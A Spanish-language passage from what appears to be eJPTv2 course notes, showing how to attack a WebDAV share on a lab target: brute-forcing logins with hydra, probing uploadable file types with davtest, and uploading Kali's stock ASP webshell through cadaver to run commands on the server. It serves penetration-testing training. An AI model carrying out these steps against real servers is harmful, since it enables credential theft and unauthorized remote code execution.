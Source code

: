 En este ejemplo, se ve que sí se requiere autenticación para acceder, y que se encuentra en la ruta “/webdav/”. Vamos a intentar autenticarnos mediante fuerza bruta con **hydra**.

```bash
hydra -L <Users.txt> -P <Pass.txt> <IP_Target> http-get /webdav/
```

Una vez obtenidas unas credenciales válidas, podemos acceder al directorio compartido desde el navegador. Para escanear el servicio con **davtest**, utilizamos el siguiente comando:

```bash
davtest -url http://<IP_Target>/webdav
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2059.png)

Nos dice que está funcionando, pero no tenemos acceso porque necesitamos autenticarnos. Si tenemos credenciales, introducimos el siguiente comando:

```bash
davtest -auth bob:password_123321 -url http://<IP_Target>/webdav
```

Nos devuelve una lista de archivos que se pueden cargar o ejecutar en el servidor web. Esta información es muy útil, por que a continuación, podemos hacer que el servidor ejecute un fichero que nos proporcione una reverse shell.

Ahora vamos a utilizar **cadaver**. El comando es:

```bash
cadaver http://<IP_Target>/webdav
```

A continuación introducimos las credenciales obtenidas anteriormente. En kali Linux tenemos una serie de **web shells** por defecto y se puede acceder a ellas desde el directorio:

```bash
ls -la /usr/share/webshells/
```

Para este ejemplo, utilizamos las de “asp”, ya que hemos comprobado anteriormente que se puede cargar y ejecutar en el servidor web un fichero con formato .asp:

```bash
ls -la /usr/share/webshells/asp/webshell.asp
```

Así que, en el prompt de **cadaver**, introducimos el siguiente comando para cargar el fichero:

```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

Seguidamente, volvemos al navegador y actualizamos la página para que se nos muestre el contenido real del directorio /webdav. Hacemos click en el fichero que acabamos de cargar para que se ejecute, y se nos abre un recuadro donde podremos introducir y ejecutar comandos que se ejecutan en el servidor.
